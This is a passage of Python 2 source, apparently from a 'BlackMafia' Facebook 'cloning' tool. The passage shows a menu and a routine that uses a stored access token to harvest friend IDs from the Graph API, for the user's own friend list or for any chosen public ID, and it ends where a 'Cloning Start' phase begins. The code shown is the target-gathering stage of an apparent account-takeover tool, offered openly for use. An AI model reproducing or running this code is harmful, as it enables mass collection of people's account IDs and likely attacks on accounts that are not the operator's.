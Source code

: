 	print "\033[1;97m-•◈•-\033[1;97m> \033[1;97m2.\x1b[1;96mClone Friend List Public ID."
	print "\033[1;97m-•◈•-\033[1;97m> \033[1;97m0.\033[1;97mBack"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;96mChoose an Option>>> \033[1;97m")
	if peak =="":
		print "\x1b[1;94mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;93mBlackMafia\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬ •◈•"
		jalan('\033[1;94mGetting IDs \033[1;94m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;97m[•◈•] \033[1;94mEnter ID\033[1;97m: \033[1;97m")
		print "\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;93mBlackMafia\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•"
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;97mName\033[1;97m:\033[1;96m "+op["name"]
		except KeyError:
			print"\x1b[1;97mID Not Found!"
			raw_input("\n\033[1;97m[\033[1;93mBack\033[1;97m]")
			super()
		print"\033[1;94mGetting IDs\033[1;97m..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;97mFill in correctly"
		pilih_super()
	
	print "\033[1;97mTotal IDs\033[1;97m: \033[1;94m"+str(len(id))
	jalan('\033[1;94mPlease Wait\033[1;94m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;94mCloning\033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;97m«--•◈••◈•---\x1b[1;93m•◈•Stop Process Press CTRL+Z•◈•\033[1;97m---•◈••◈•-»"
	print "\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;93mBlackMafia\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬ •◈•"
	jalan(' \033[1;97m.................\033[1;93mCloning Start..\033[1;97m............ ')
	print "\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;93mBlackMafia\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬ •◈•"
	